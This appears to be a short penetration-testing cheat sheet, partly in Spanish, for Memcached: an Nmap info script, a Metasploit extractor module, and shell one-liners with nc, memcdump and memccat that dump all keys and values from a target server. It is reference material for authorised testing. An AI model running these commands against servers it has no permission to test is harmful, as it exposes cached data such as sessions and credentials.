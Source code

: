 ## Info
### Nmap
```
nmap -p port --script memcached-info IP
```
### Metasploit module
```
auxiliary/gather/memcached_extractor
```
### Dumpear las keys y values
```
xargs -L1 -I% sh -c 'echo "get KEYNAME" | nc IP PORT'
for key in $(memcdump --server=IP); do echo ------ $key ------; memccat --server=IP $key; done
for key in $(memcdump --server=target-1); do echo ------ $key ------; memccat --server=target-1 $key; done
```
